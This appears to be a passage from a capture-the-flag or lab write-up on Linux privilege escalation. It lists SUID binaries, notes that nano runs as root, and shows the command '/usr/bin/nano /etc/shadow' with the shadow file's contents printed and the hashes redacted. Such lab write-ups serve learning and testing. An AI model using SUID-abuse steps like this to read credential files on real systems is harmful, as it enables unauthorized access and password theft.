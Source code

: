 ```bash
     7479     16 -rwsr-xr-x   1 root     root               14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
     7044    144 -rwsr-xr-x   1 root     root              146888 May 29  2023 /usr/lib/snapd/snap-confine
     9161     84 -rwsr-xr-x   1 root     root               85064 Nov 29  2022 /usr/bin/chfn
    13933     32 -rwsr-xr-x   1 root     root               31032 Feb 21  2022 /usr/bin/pkexec
    16077    164 -rwsr-xr-x   1 root     root              166056 Apr  4  2023 /usr/bin/sudo
     5576     40 -rwsr-xr-x   1 root     root               39144 May 30  2023 /usr/bin/umount
     9166     68 -rwsr-xr-x   1 root     root               68208 Nov 29  2022 /usr/bin/passwd
     9165     88 -rwsr-xr-x   1 root     root               88464 Nov 29  2022 /usr/bin/gpasswd
     3189     44 -rwsr-xr-x   1 root     root               44784 Nov 29  2022 /usr/bin/newgrp
     9163     52 -rwsr-xr-x   1 root     root               53040 Nov 29  2022 /usr/bin/chsh
     2136    316 -rwsr-xr-x   1 root     root              320136 Apr 10  2020 /usr/bin/nano
    10845     68 -rwsr-xr-x   1 root     root               67816 May 30  2023 /usr/bin/su
     2028     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
     1571    316 -rwsr-x---   1 root     zeamkish          320160 Feb 18  2020 /usr/bin/find
     2166     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
     5210     56 -rwsr-xr-x   1 root     root               55528 May 30  2023 /usr/bin/mount
```

We can see that we can run nano with root privileges.

I tried to gain a root shell but failed, so I just went and read the file of the shadow and password:

```bash
/usr/bin/nano /etc/shadow

root:<redacted>:19519:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:19502::::::
ubuntu:<redacted>:19519:0:99999:7:::
lxd:!:19502::::::
mysql:!:19502:0:99999:7:::
zeamkish:<redacted>:19516:0:99999:7:::
```